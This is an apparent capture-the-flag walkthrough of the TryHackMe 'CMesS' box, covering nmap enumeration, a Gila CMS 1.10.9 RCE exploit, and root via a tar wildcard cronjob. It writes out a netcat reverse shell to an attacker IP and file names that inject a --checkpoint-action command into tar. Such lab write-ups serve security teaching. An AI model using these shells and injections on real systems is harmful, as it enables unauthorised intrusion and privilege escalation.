

# THM - CMesS

#### Ip: 10.10.246.242
#### Name: CMesS
#### Difficulty: Medium

----------------------------------------------------------------------


### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/CMesS]
└─$ sudo nmap -p-  --min-rate 10000 10.10.246.242
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 10:08 CDT
Nmap scan report for 10.10.246.242
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/CMesS]
└─$ sudo nmap -sC -sV 10.10.246.242 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 10:09 CDT
Nmap scan report for 10.10.246.242
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9b652d3939a3850b4233bfd210c051f (RSA)
|   256 21c36e318b85228a6d72868fae64662b (ECDSA)
|_  256 5bb9757805d7ec43309617ffc6a86ced (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-generator: Gila CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.00 seconds
```

Navigating to the site we find a default Gila CMS landing page:



Per the instructions/ hint, it looks like we'll need to do some fuzzing here. We can do that with wfuzz:

fuzz.png

Cool, looks like we've also got a dev.cmess.thm, lets add that to `/etc/hosts` as well. 

Checking out the page we find a chat between user andre and the support team, and included in the chat is a password!

dev.png

Navigating to http://cmess.thm/admin we can use these credentials to login to andre's account:

admin.png

### Exploitation

At the bottom of the page we find the version number for Gila: `Gila CMS version 1.10.9`

Searching for public exploits I came across https://www.exploit-db.com/exploits/51569 which looks promising. 

Taking a look at the code it looks like we're exploiting the .htaccess mentioned in the dev notes. Lets give this a shot.

Lets fire off the script using:

```text
┌──(ryan㉿kali)-[~/THM/CMesS]
└─$ python gila_1.10.9_rce.py
```

And we can catch a shell back as www-data:

shell.png

Trying to access andre's home direcotory we get an access denied error:

```text
www-data@cmess:/var/www/html/tmp$ cd /home
cd /home
www-data@cmess:/home$ ls
ls
andre
www-data@cmess:/home$ cd andre
cd andre
bash: cd: andre: Permission denied
```

Looks like we'll need to look around a bit more.

Checking out the `/opt` folder we find a backup file with with andre's credentials:

```text
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
andres backup password
UQfsdCB7aAP6
```

We can use this password to switch users to andre and grab the user.txt flag:

user_flag.png

### Privilege Escalation

Taking a look at `/etc/crontab` to find any cronjobs, we find a job run by root that uses tar on everything/* in `/home/andre/backup`

```text
# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
Because this job is using a wildcard, we should be able to exploit this. 

Lets create a bash script in the `/backup` directory with:

```text
andre@cmess:~/backup$ cat > /home/andre/backup/shell << EOF
> #!/bin/bash
> rm /tmp/test
> mkfifo /tmp/test
> cat /tmp/test|/bin/sh -i 2>&1|nc 10.6.61.45 8888 >/tmp/test
> EOF
```
Then run:

```text
echo "" > "/home/andre/backup/--checkpoint=1"
echo "" > "/home/andre/backup/--checkpoint-action=exec=sh shell"
```

After two minutes (or less) we should catch a shell in our netcat listener and be able to grab the root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------


